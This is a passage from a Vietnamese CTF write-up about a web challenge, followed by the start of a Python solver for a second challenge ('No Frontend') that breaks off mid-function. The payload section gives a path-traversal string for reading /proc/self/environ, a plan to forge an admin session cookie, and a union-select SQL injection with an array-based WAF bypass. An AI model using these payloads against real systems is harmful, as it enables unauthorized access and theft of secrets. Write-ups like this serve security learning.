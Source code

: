 ```python=
			if rv[0][2] == md5_password:
				session['username'] = username
				session['secret_key'] = rv[0][3]
				return redirect('/')
			flash('Wrong password')
		return redirect('/login')
```
- Login thì chỉ check `username` qua hàm `waf_filter`, `password` thì sẽ được md5 và so sánh với md5 tron database.

Tóm lại:
- Biết được `flag` nằm trong `note` của account `admin`
- password của các user đăng kí đều được hash `md5` kể cả password của `admin`
- Có 4 chỗ để sqli `/write_note`, `/notes`, `/register`, `/login`
- Có thể `path traversal` để đọc file

### IDEA
- Sử dụng `path traversal` để đọc file `environment`, khi đó sẽ lấy được `SECRET_KEY` => crarf lại session `admin` => truy cập vô `admin` lấy `flag`. flag đang bị encrypt `AES`
- Biết được `secret_key` lưu trong `db` tại account `admin` được sử dụng để decrypt => sqli để lấy `secret_key`
- Bypass `waf_filter` bằng array. Mình nhớ trong function này check `'"\` và 1 số kí tự khác bằng cách loop => có thể bypass bằng array

### Payload
- Đọc `environment` để lấy `SECRET_KEY` => `../../../../../proc/self/environ`
- Craft cookie `username=admin` để vô lấy chuỗi `flag` bị encrypt
- Craft cookie với username là ``[" ' union select 1,2,(select secret_key from users where username='admin'),4,5-- -"]`` => lấy được `secret_key` để decrypt
- Sử dụng lại code decrypt của tác giả để decrypt flag

# Challenge No Frontend

### Payload
```python=
import string
from random import choices
import requests

URL = 'http://103.245.250.31:32322'

def random_passwd(N:int)->str:
      return ''.join(choices(string.ascii_letters + string.digits,k=N))

def register(username,password):
    json = {'uname':username,'pwd':password}
    r = requests.post(URL+'/auth/register', json=json)
    print(r.text)

def login(username,password):
    json = {'uname':username,'pwd':password}
    r = requests.post(URL+'/auth/login',json=json)
    return r.headers["Set-Cookie"].split('=')[1]

def insert(key,data,token):
    json = {"key":key,"data":data}
    cookies = {"token":token}
    r = requests.post(URL+'/api/insert-data',json=json, cookies=cookies)
    return r.json()['data']

def getData(key,Signature,token):
    json = {"key":key}
```